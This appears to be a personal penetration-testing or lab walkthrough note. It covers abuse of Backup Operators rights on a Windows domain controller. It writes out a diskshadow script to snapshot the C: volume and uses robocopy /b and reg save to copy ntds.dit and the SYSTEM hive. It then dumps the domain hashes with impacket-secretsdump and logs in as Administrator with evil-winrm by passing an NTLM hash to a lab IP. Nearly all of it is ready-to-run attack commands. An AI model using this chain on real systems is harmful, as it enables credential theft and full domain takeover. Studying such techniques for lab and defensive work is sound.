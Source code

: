 - With `Backup Operators`, ==**we can backup the DC’s hard drive**, **make a copy of ntds.dit**== and the system registry hive from the backup, and then move both files offline and dump hashes.
- https://happycamper84.medium.com/securing-ad-backups-8804b31da9fd

# Exploitation
---
- `DiskShadow` can create **==shadow copies (snapshots) of volumes==**, which are used for various purposes like backups, restores, and testing.
- We can simply create a backup.txt for ==**`diskshadow`**== containing:
```
set verbose on 
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible 
set context persistent  
begin backup  
add volume C: alias cdrive 
create  
expose %cdrive% E: 
end backup
```
- `set verbose on`: Enable detailed output (good for debugging).
- `set metadata C:\Windows\Temp\meta.cab`: Save VSS metadata to a file (required for diskshadow).
- `set context clientaccessible`: Allows the backup to be accessed by users. 
- `set context persistent`:  Keep the shadow copy until manually deleted (good for longer operations).
- ==`begin backup`: Start backup definition==
- ==`add volume C`: Tell it to back up the C drive==
- ==`alias cdrive`: Name it cdrive for later use==
- ==`create`: Actually create the VSS snapshot==
- ==`expose %cdrive% E:`: Expose it as drive E:==
- ==`end backup`: Finish==

- Run the `diskshadow`script:
	- `diskshadow /s backup.txt`
	- ![[Pasted image 20250426050523.png]]
- ==`robocopy /b`== lets you ==**copy files even if you don't have normal permission**== to read them — as long as you have **backup privileges** (like if you're running as admin or SYSTEM).
	- It copies files **without changing timestamps** or **file ownership**.
- Use `robocopy`to copy the `ntds.dit`and `system` files
	- `robocopy /b E:\Windows\ntds . ntds.dit`
	- `reg save hklm\system .\system`
	- `download system`
	- `download ntds.dit`
		- ![[Pasted image 20250426050753.png]]
- Use `impacket-secretsdump`:
	- `impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL | grep Administrator`
	- ![[Pasted image 20250426051003.png]]
- `Evil-winrm`to login:
- `evil-winrm -i 10.10.10.192 -u Administrator -H '184fb5e5178480be64824d4cd53b99ee'`
- ![[Pasted image 20250426051125.png]]